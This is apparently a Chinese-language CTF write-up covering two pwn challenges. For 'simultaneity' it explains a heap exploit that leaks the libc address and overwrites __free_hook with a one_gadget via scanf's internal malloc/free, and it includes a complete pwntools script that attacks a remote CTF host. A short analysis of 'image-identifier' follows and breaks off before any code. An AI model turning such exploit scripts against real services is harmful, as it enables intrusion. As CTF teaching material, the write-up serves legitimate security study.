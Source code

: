 ## simultaneity

代码比较简单, 任意malloc一个大小, 然后通过距离可以构造一个任意地址写, 然后就推出了,使用`_exit`退出无法利用.

![image-20210726170032665](https://i.loli.net/2021/07/26/xKsGIduoeE6mRb5.png)

通过mmap出的堆块到libc距离固定的机制可以得到libc地址,

然后另一个技巧是scanf接收大量数据的时候也会使用malloc和free使用一个堆空间来放置输入的机制, 他的运行流程是, 先malloc一个堆块, 然后读取进来, 然后写入目标位置以后free掉, 

于是我们修改free_hook, 前缀大量的"0", 会使用堆块机制, 写入onegadget,  在free的时候getshell

```python
from pwn import * 

context.arch='amd64'
context.log_level='debug'

# cn = process("./bin")
cn = remote("mc.ax", 31547)

# gdb.attach(cn, "b * $rebase(0x000000000000125C)")
cn.sendlineafter("how big?", str(0x300000))
cn.recvuntil("you are here: 0x")

heap = int(cn.recv(12), 16) - 0x10
print("heap: " + hex(heap))

blibc = heap+ 0x301000
print("blibc: " + hex(blibc))

libc = ELF("./libc.so.6")
len = libc.sym['__free_hook'] + 0x301000 - 0x10
print("len: " + hex(len))

cn.sendlineafter("how far?", str(len // 8))
cn.sendlineafter("what?", '0' * 0x800 + str(blibc + 0xe5456))

cn.interactive()

```

## image-identifier

### 分析

首先输入要输入的文件长度, 然后输入一个文件, 检测文件头标识并使用bmp或png文件,

但是bmp解析几个函数基本啥都没写, 应该是要用png, 然后后面是先文件头检测, 然后chunk检测, 最后是foot, 

注意是吧函数指针写入到堆块中, 然后通过堆块调用函数的, 并且输入的文件和函数指针堆块相邻, 程序也提供了后门函数,
